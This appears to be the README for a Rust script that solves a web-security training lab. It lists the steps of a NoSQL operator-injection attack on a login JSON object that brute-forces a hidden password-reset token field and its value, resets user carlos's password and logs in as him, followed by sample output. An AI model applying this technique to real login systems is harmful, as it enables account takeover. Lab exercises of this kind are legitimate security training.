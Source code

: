 ## Hack Steps

1. Fetch the forgot-password page
2. Extract the csrf token and session cookie
3. Make a forgot-password request for carlos
4. Inject an operator and payload into the login JSON object to determine the length of the unknown field name
5. Modify the payload to brute force the field name
6. Modify the payload to determine the length of the field value
7. Modify the payload to brute force the field value
8. Fetch the forgot-password page with the field name and its value as a query pararmeter
9. Extract the csrf token and session cookie
10. Make a reset password request for carlos
11. Login as carlos with the new password
12. Fetch the carlos profile

## Run Script

1. Change the URL of the lab
2. You may need to change the field number you extract depending on the lab setup. Either field 3 or field 4 should work
3. Start script
```
~$ cargo run
```

## Expected Output

```
⦗#⦘ Injection point: login JSON object
⦗1⦘ Fetching the forgot-password page.. OK
⦗2⦘ Extracting the csrf token and session cookie.. OK
⦗3⦘ Sending a reset password request for carlos.. OK
⦗4⦘ Determining the length of the 3rd field..
❯❯ Checking if length =  5
❯❯ Checking if length =  7
        .........
❯❯ Checking if length =  13 [ Correct length: 13 ]
⦗5⦘ Brute force the field name.. (0%)
⦗5⦘ Brute force the field name.. (47%): r s t w T  e
⦗5⦘ Brute force the field name.. (76%): res t wdT ken
                .........
⦗5⦘ Brute force the field name.. (100%): resetPwdToken
⦗6⦘ Determining the length of the 3rd field value..
❯❯ Checking if length =  4
❯❯ Checking if length =  9
                .........
❯❯ Checking if length =  16 [ Correct length: 16 ]
⦗7⦘ Brute force the field value.. (0%)
⦗7⦘ Brute force the field value.. (43%): 8  7  1 6   2 ad
⦗7⦘ Brute force the field value.. (75%): 8 e7 21 61fc2 ad
                .........
⦗7⦘ Brute force the field value.. (100%): 86e7721561fc20ad
⦗8⦘ Fetching the forgot-password page with the field name and its value as a query pararmter.. OK
⦗9⦘ Extracting the csrf token and session cookie.. OK
⦗10⦘ Reseting carlos password to hacked.. OK
⦗11⦘ Logging in as the carlos.. OK
⦗12⦘ Fetching the carlos profile.. OK
🗹 The lab should be marked now as solved
```
